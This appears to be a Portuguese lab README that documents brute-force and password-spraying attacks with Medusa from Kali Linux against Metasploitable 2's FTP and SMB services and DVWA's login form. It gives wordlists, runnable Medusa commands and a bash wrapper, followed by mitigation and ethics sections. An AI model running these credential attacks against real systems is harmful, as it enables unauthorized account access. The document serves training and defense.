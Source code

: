 # Laboratório: Medusa (Kali) vs Metasploitable — README

---

## 1. Resumo do projeto
Este projeto demonstra testes de força bruta e password spraying utilizando a ferramenta **Medusa** em um ambiente de laboratório composto por **Kali Linux** (atacante) e **Metasploitable 2** (alvo). O objetivo é praticar técnicas de enumeração e ataques controlados, documentar procedimentos, resultados e propor medidas de mitigação.

---

## 2. Escopo
- Serviços testados: **FTP**, **SMB** (Samba) e **formulário web (DVWA)**.
- Ferramenta principal: **Medusa** (Kali Linux).
- Wordlists educacionais e pequenas (para fins didáticos).
- Documentação de comandos, evidências e recomendações de segurança.

---

## 3. Requisitos
- VirtualBox (ou outro hypervisor com redes host-only / internal).
- ISO/VMs: Kali Linux (atacante) e Metasploitable 2 (alvo).
- Medusa instalado no Kali: `sudo apt update && sudo apt install medusa -y`.
- Ferramentas auxiliares (opcional): Burp Suite, OWASP ZAP, wireshark, tcpdump, fail2ban.

---

## 4. Arquitetura e IPs sugeridos

- Kali (atacante): `192.168.56.10`
- Metasploitable (alvo): `192.168.56.20`

---

## 5. Preparação das VMs (passo-a-passo)
1. Importar/instalar as VMs no VirtualBox.
2. Configurar adaptadores de rede conforme seção anterior.
3. Definir IPs estáticos na interface host-only ou usar o DHCP do VirtualBox.
4. No Kali, instalar/atualizar pacotes:

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install medusa tcpdump wireshark -y
```

5. Garantir que Metasploitable esteja acessível:

```bash
ping 192.168.56.20
```

---

## 6. Wordlists

`users.txt`
```
root
admin
ftp
msfadmin
tom
```

`pass_short.txt`
```
123456
password
admin
qwerty
msfadmin
```

`pass_common.txt`
```
Summer2024
Senha@123
P@ssw0rd
1234abcd
```

---

## 7. Comandos Medusa — exemplos e explicações
**FTP — força bruta com lista de usuários e senhas**

```bash
medusa -h 192.168.56.20 -U /home/kali/lists/users.txt -P /home/kali/lists/pass_short.txt -M ftp -t 4 > /home/kali/results/medusa_ftp.txt
```
- `-h` host alvo
- `-U` arquivo com usuários (um por linha)
- `-P` arquivo com senhas
- `-M ftp` módulo/serviço
- `-t` threads (paralelismo)
- saída redirecionada para arquivo de resultados

**SMB — password spraying (poucas senhas contra vários usuários)**

```bash
medusa -h 192.168.56.20 -U /home/kali/lists/users.txt -P /home/kali/lists/pass_common.txt -M smb -t 6 > /home/kali/results/medusa_smb.txt
```

**HTTP form (DVWA) — conceito e exemplo**

Medusa suporta módulo `http_form`, mas configurar o parâmetro `-m` pode ser sensível ao formulário. Modelo genérico:

```bash
medusa -h 192.168.56.20 -U /home/kali/lists/users.txt -P /home/kali/lists/pass_short.txt -M http_form -m FORM:'/dvwa/login.php:username:password:Login failed' -t 4 > /home/kali/results/medusa_dvwa.txt
```

- `FORM:` formato: `'<path>:<campo_user>:<campo_pass>:<texto_indicador_falha>'`
- Ajuste `path` para o endpoint correto e `texto_indicador_falha` para a mensagem exibida quando o login falha (usada para identificar sucesso quando ausente).

---

## 8. Coleta de evidências e validação
1. Salvar saídas do Medusa (como nos comandos acima).
2. Tirar screenshots do terminal mostrando credenciais encontradas.
3. Validar acesso manualmente (apenas no laboratório):
   - FTP: `ftp 192.168.56.20` e realizar `ls` após login.
   - SMB: `smbclient -L \\192.168.56.20 -U username%password`.
4. Coletar logs do alvo (Metasploitable): `/var/log/auth.log`, `/var/log/syslog`.
5. Anotar número de tentativas e duração do teste.

---

## 9. Exemplos de resultados (modelo a preencher)
- **Comando:** `medusa -h 192.168.56.20 -U users.txt -P pass_short.txt -M ftp -t 4`
- **Resultado encontrado:** `ftp:msfadmin:msfadmin`
- **Evidência:** `screenshots/ftp_login_success.png` (colocar capture)
- **Logs:** trecho de `/var/log/auth.log` com a autenticação bem sucedida.


---

## 10. Análise de risco (hipotética)
Se as credenciais fracas identificadas existissem em um sistema de produção, o atacante poderia:
- Acessar dados sensíveis via FTP/SMB
- Movimentar-se lateralmente na rede
- Implantar backdoors/serviços maliciosos
- Exfiltrar informações

Impacto depende do serviço comprometido e do papel do usuário comprometido.

---

## 11. Recomendações de mitigação
1. **Senhas fortes e políticas de expiração** — mínimo 12+ caracteres, evitar senhas comuns.
2. **Bloqueio e atrasos por tentativas** — lockout temporário ou incremento de delay após X falhas.
3. **MFA** — aplicar sempre que possível.
4. **Rate limiting / WAF** — limitar requisições por IP aos endpoints de login.
5. **Monitoramento/alerting** — detectar bursts de tentativas de autenticação e IPs suspeitos.
6. **Fail2ban / bloqueio automático** — automatizar bloqueios temporários.
7. **Desabilitar serviços desnecessários** — por exemplo, FTP em produção; usar SFTP/FTPS se necessário.
8. **Harden SMB** — desativar SMBv1, políticas de senha, logs centralizados.
9. **Segmentação de rede** — isolar serviços críticos.

---

## 12. Boas práticas e ética
- Execute testes apenas em ambientes controlados e autorizados.
- Documente data/hora e escopo dos testes.
- Não publique credenciais reais ou endereços de sistemas de terceiros.
- Ao divulgar resultados, deixe claro que se trata de laboratório.

---

## 13. Próximos passos / extensões sugeridas
- Integrar `hydra`, `Burp` e `OWASP ZAP` para comparação de técnicas.
- Criar wordlists customizadas (regras de combinação, mutações de senhas) e medir eficiência.
- Automatizar geração de relatórios (scripts que compilam logs, screenshots e outputs).
- Testar detecções com `fail2ban` configurado e avaliar falso-positivos.

---

## 14. Apêndice — Scripts e templates
**Template simples (bash) para executar Medusa e salvar saída**

```bash
#!/bin/bash
TARGET=192.168.56.20
USERLIST=/home/kali/lists/users.txt
PASSLIST=/home/kali/lists/pass_short.txt
OUTDIR=/home/kali/results
mkdir -p "$OUTDIR"
medusa -h "$TARGET" -U "$USERLIST" -P "$PASSLIST" -M ftp -t 4 > "$OUTDIR/medusa_$(date +%Y%m%d_%H%M%S)_ftp.txt"
```


---

## 15. Referências
- Documentação Medusa: `man medusa` e `medusa --help`
- DVWA: https://github.com/digininja/DVWA
- Metasploitable 2: https://sourceforge.net/projects/metasploitable/
- OWASP — recursos sobre proteção de autenticação

---

**FIM**


